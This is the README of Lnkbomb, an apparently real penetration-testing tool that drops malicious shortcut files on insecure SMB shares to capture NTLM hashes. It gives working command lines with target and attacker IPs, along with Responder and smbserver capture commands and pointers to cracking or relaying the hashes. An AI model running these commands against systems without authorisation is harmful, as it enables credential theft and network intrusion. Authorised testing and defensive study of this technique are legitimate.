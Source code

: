 # Lnkbomb

[![ko-fi](https://ko-fi.com/img/githubbutton_sm.svg)](https://ko-fi.com/M4M03Q2JN)

<p align="center">
  <img src="https://github.com/dievus/lnkbomb/blob/dev/images/example.png" />
</p>

Lnkbomb is used for uploading malicious shortcut files to insecure file shares.  The vulnerability exists due to Windows looking for an icon file to associate with the shortcut file.  This icon file can be directed to a penetration tester's machine running Responder or smbserver to gather NTLMv1 or NTLMv2 hashes (depending on configuration of the victim host machine).  The tester can then attempt to crack those collected hashes offline with a tool like Hashcat, or relay them to a tool like ntlmrelayx for further exploitation.

The payload file is uploaded directly to the insecure file specified by the tester in the command line. The tester includes their IP address as well, which is written into the payload.

Version 2.0 is a total rebuild of the tool and uses the pysmb library, permitting unauthenticated and authenticated payload drops.

## Python Usage
Installing Lnkbomb

Note that the project works consistently in Windows. It may have issues in Linux.

```git clone https://github.com/dievus/lnkbomb.git```

Change directories to lnkbomb and run:

```python3 lnkbomb.py -h```

This will output the help menu, which contains the following flags:

```-h, --help - Lists the help options```

```-t, --target - Specifies the target IP address```

```-a, --attacker - Specifies the tester's attack machine IP address```

```-r, --recover - Used to remove the payload when testing is completed (ex. -r payloadname.url)```

```-w, --windows - New command - required for setting appropriate ports for Windows shares```

```-l, --linux - New command - required for setting appropriate ports for Linux shares```

```-n, --netbios - New command - netbios name for targeted Windows machines must be included```

Examples of full commands include:

```python3 .\lnkbomb.py -t 192.168.1.79 -a 192.168.1.21 -s Shared -u themayor -p Password123! -n dc01 --windows```

```python3 .\lnkbomb.py -t 192.168.1.79 -a 192.168.1.21 -s Shared -u themayor -p Password123! -n dc01 --windows -r dicnwdsebl.url```

You will need to utilize a tool like Responder or smbserver to capture the NTLM hash.  
```responder -I eth0 -dwFP -v```

or

```smbserver.py . . -smb2support```


<p align="center">
  <img src="https://github.com/dievus/lnkbomb/blob/dev/images/example2.png" />
</p>

### Notes
Please keep in mind that this tool is meant for ethical hacking and penetration testing purposes only. I do not condone any behavior that would include testing targets that you do not currently have permission to test against.  
